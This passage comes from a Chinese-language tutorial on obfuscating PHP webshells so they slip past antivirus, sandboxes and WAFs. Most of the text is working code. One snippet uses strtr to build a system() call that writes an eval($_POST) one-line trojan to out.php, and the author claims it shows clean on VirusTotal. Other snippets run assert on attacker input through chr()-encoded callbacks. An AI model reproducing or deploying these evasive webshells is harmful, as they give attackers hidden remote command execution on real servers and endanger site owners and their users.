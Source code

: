 ## 3# 生成新文件绕过

这是我之前写的一个免杀，其实原理也很简单，该 PHP 本身没法执行命令，但是运行后可以在同目录混淆写入一个 WebShell，也是可以进行免杀的：

```plain
$hahaha = strtr("abatme","me","em");      //$hahaha = abatem
$wahaha = strtr($hahaha,"ab","sy");       //$wahaha = system（高危函数）
$gogogo = strtr('echo "<?php evqrw$_yKST[AABYSS])?>" > ./out.php',"qrwxyK","al(_PO");
//$gogogo = 'echo "<?php eval(_POST[AABYSS])?>" > ./out.php'
$wahaha($gogogo);  //将一句话木马内容写入同目录下的 out.php 中
```

现在看这个是不是很简单，但是这个可是 VirusTotal 全绿、微步沙箱和百度沙箱都过的哦~

没想到吧~ 其实在这个简单的基础上还可以拓展出来进行高阶免杀操作

## 4# 回调函数绕过

通过回调函数，来执行对应的命令，这里举两个例子：

### 4.1 call\_user\_func\_array()

```plain
//ASCII 编码解密后为 assert 高危函数
$f =  chr(98-1).chr(116-1).chr(116-1).chr(103-2).chr(112+2).chr(110+6);
call_user_func_array($f, array($_POST['aabyss']));
```

### 4.2 array\_map()

```plain
function fun() {
    //ASCII 编码解密后为 assert 高危函数
    $f =  chr(98-1).chr(116-1).chr(116-1).chr(103-2).chr(112+2).chr(110+6);
    return ''.$f;
}
$user = fun();    //拿到 assert 高危函数
$pass =array($_POST['aabyss']);
array_map($user,$user = $pass );
```

回调函数的免杀早早就被 WAF 盯上了，像这样单独使用一般都没办法免杀，所以一般都是配合其他手法使用

## 5# 可变变量绕过

### 5.1 简单可变变量

什么叫可变变量呢？看一下具体例子就明白了：

```plain
$f = 'hello';    //变量名为 f，变量值为 Hello
$$f = 'AabyssZG';  //变量名为 Hello（也就是$f的值），值为 AabyssZG
echo $hello;     //输出 AabyssZG
```
